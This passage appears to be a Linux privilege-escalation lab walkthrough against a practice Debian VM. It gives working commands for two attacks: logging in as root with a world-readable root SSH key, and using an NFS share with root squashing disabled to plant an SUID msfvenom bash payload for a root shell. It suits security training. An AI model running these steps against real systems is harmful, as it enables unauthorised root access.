 Look for hidden files & directories in the system root:

`ls -la /`

Note that there appears to be a hidden directory called **.ssh**. View the contents of the directory:

`ls -l /.ssh`

Note that there is a world-readable file called **root_key**. Further inspection of this file should indicate it is a private SSH key. The name of the file suggests it is for the root user.

Copy the key over to your Kali box (it's easier to just view the contents of the **root_key** file and copy/paste the key) and give it the correct permissions, otherwise your SSH client will refuse to use it:

`chmod 600 root_key`

Use the key to login to the Debian VM as the root account (change the IP accordingly):

`ssh -i root_key root@10.10.10.10`
## NFS

Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

`cat /etc/exports`

Note that the **/tmp** share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:

`sudo su`

Using Kali's root user, create a mount point on your Kali box and mount the **/tmp** share (update the IP accordingly):

`mkdir /tmp/nfs  
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs`

Still using Kali's root user, generate a payload using **msfvenom** and save it to the mounted share (this payload simply calls /bin/bash):

`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`

Still using Kali's root user, make the file executable and set the SUID permission:

`chmod +xs /tmp/nfs/shell.elf`

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

`/tmp/shell.elf`

## Kernel Exploits

Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort.

